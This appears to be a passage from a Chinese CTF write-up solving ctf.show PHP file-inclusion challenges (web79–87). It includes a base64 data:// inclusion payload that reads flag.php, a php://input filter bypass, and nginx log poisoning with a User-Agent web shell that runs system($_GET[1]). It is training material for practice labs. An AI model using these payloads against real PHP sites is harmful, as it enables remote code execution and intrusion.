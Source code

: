 `http://316a1b13-abdf-4430-8d75-b8e0c3a8b9fc.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnZmxhZy5waHAnKTs/Pg==`

## web80

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```

用上一题的 `phP://input` 绕过

![20220804122843](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804122843.png)

nginx 日志包含, 远程文件包含也能用

nginx 日志路径 `/var/log/nginx/access.log`, 更改 User-Agent

## web81

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
```

包含日志

```
User-Agent: <?php system($_GET[1]);?>
```

![20220804123402](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804123402.png)

## web82-86

**竞争环境需要晚上11点30分至次日7时30分之间做，其他时间不开放竞争条件**

先放着

## web87

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```
